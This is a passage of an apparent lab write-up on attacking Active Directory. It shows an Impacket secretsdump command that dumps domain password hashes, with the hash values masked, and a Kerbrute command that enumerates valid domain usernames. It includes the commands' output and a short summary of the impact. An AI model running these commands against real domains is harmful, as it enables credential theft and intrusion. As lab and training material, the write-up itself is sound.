 ```
1. Establish a connection to the target system using MSRPC.
2. Retrieve the Security Account Manager (SAM) database and SYSTEM hive files, which contain password hashes and other sensitive information.
3. Extract and decrypt the password hashes and cached credentials from the obtained files.

Impact:
Successful exploitation of Secretsdump can lead to the following consequences:
- Disclosure of password hashes, enabling offline password cracking attempts
- Access to cached credentials, potentially granting access to other systems or resources
- Exposure of other sensitive data, such as Kerberos tickets, private keys, or certificates

```

```bash
root@ip-10-10-236-201:/opt/impacket/examples# secretsdump.py spookysec.local/backup:placeholder@10.10.20.33
Impacket v0.10.1.dev1+20230316.112532.f0ac44bd - Copyright 2022 Fortra

[-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied 
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:XXX:XXX:::

```

### Results

I successfully dumped the hashes for domain users, including the Administrator hash.

```plaintext
Administrator:500:XXX:XXX:::
```

### Conclusion

By  enumerating services, identifying vulnerable accounts, and exploiting misconfigurations, I was able to gain insights into the Active Directory environment.


#AD Room No2


## Attacking Kerberos in Active Directory

### Kerbrute

**Kerbrute** is a powerful enumeration tool used for brute-forcing and enumerating valid Active Directory users by exploiting Kerberos pre-authentication.

#### Example Usage
To enumerate valid usernames against a domain controller:
```bash
root@ip-10-10-235-137:~# ./kerbrute userenum --dc CONTROLLER.local -d CONTROLLER.local user.txt

__             __               __     
/ /_____  _____/ /_  _______  __/ /____ 
/ //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
/ ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

Version: v1.0.3 (9dad6e1) - 07/21/24 - Ronnie Flathers @ropnop

2024/07/21 18:05:16 >  Using KDC(s):
2024/07/21 18:05:16 >  	CONTROLLER.local:88

2024/07/21 18:05:16 >  [+] VALID USERNAME:	 admin1@CONTROLLER.local
```